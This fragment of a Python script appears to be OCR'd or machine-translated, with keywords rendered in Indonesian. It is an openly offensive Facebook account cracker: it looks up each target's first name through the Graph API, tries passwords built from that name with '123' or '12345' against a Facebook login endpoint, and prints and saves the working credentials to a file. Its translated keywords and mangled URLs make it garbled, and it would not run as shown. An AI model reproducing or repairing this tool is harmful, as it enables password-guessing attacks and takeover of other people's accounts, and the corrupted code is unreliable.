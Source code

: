 			raw_input ('\ n \ x1b [1; 96m [\ x1b [1; 97mKembali \ x1b [1; 96m]')
			super()
	elif peak == "0":
		Tidak bisa()
	lain:
		cetak "\ 033 [1; 96m [!] \ x1b [1; 91mIsi yang benar"
		pilih_super ()
	
	cetak "\ 033 [1; 96m [+] \ 033 [1; 93mTotal ID \ 033 [1; 91m: \ 033 [1; 97m" + str (len (id))
	titik = ['. ',' .. ',' ... ']
	untuk o di titik:
		cetak ("\ r \ 033 [1; 96m [\ 033 [1; 97m✸ \ 033 [1; 96m] \ 033 [1; 93mCrack \ 033 [1; 97m" + o) ,; sys.stdout.flush ( ); time.sleep (1)
	mencetak
	cetak ('\ x1b [1; 96m [!] \ x1b [1; 93mHentikan CTRL + z')
	cetak 42 * "\ 033 [1; 96m ="
	
			
	def main (arg):
		cekpoint global, oks
		pengguna = arg
		mencoba:
			os.mkdir ('keluar')
		kecuali OSError:
			lulus
		mencoba:
			a = requests.get ('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads (a.text)
			pass1 = b ['first_name'] + '123'
			data = urllib.urlopen ("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&&== password & urus==&&== urellib.urlopen) ) + "& sdk = ios & generate_session_cookies = 1 & sig = 3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load (data)
			jika 'access_token' di q:
				cetak '\ x1b [1; 96m [✓] \ x1b [1; 92mBERHASIL'
				cetak '\ x1b [1; 96m [✺] \ x1b [1; 97mNama \ x1b [1; 91m: \ x1b [1; 92m' + b ['name']
				cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mID \ x1b [1; 91m: \ x1b [1; 92m' + pengguna
				cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mPassword \ x1b [1; 91m: \ x1b [1; 92m' + pass1 + '\ n'
				oks.append (pengguna + pass1)
			lain:
				jika 'www.facebook.com' di q ["error_msg"]:
					cetak '\ x1b [1; 96m [✖] \ x1b [1; 93mCEKPOINT'
					cetak '\ x1b [1; 96m [✺] \ x1b [1; 97mNama \ x1b [1; 91m: \ x1b [1; 93m' + b ['name']
					cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mID \ x1b [1; 91m: \ x1b [1; 93m' + pengguna
					cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mPassword \ x1b [1; 91m: \ x1b [1; 93m' + pass1 + '\ n'
					cek = buka ("out / super_cp.txt", "a")
					cek.write ("ID:" + user + "Pw:" + pass1 + "\ n")
					cek.close ()
					cekpoint.append (pengguna + pass1)
				lain:
					pass2 = b ['first_name'] + '12345'
					data = urllib.urlopen ("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&&== password & ur== ur_int_=ion) & urus = user & urus (urus) = password & urus urus == pengguna & urus uret = user & urusup (uruster = password = urus) = data = ur5 ) + "& sdk = ios & generate_session_cookies = 1 & sig = 3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load (data)
					jika 'access_token' di q:
						cetak '\ x1b [1; 96m [✓] \ x1b [1; 92mBERHASIL'
						cetak '\ x1b [1; 96m [✺] \ x1b [1; 97mNama \ x1b [1; 91m: \ x1b [1; 92m' + b ['name']
						cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mID \ x1b [1; 91m: \ x1b [1; 92m' + pengguna
						cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mPassword \ x1b [1; 91m: \ x1b [1; 92m' + pass2 + '\ n'
						oks.append (pengguna + pass2)
					lain:
						jika 'www.facebook.com' di q ["error_msg"]: